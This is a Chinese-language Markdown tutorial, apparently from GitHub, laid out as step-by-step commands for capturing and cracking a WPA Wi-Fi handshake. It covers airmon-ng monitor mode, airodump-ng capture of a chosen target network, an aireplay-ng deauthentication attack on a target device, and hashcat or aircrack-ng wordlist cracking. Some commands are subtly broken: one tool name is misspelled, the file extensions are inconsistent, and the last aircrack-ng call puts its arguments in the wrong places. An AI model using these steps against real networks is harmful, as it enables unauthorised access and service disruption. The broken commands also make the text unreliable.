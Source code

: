 
1. 查看網絡設備, 獲取無線網卡名稱.
```bash
iwconfig
```

---

2. 開啓無線網卡監聽模式.
```bash
sudo airmon-ng start wlan0
```
開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

---

3. 監聽 Wifi 信號.
```bash
sudo airodunp-ng wlan0mon
```
當發現目標 Wifi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

---

4. 捕獲指定 Wifi 通信內容.
```bash
sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
```

---

5. 斷開指定設備與指定 Wifi 的鏈接.
```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
```
目標設備從指定 Wifi 斷開鏈接後將嘗試衝連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

---

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.
此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

---

7. 對`.cap`文件中握手包的hash進行破解.
  - 使用 Hashcat. (推薦)
    ```bash
    aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
    hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
    ```
  - 使用 aircrack-ng.
    ```bash
    aircrack-ng -w [.cap存檔文件] [字典文件]
    ```

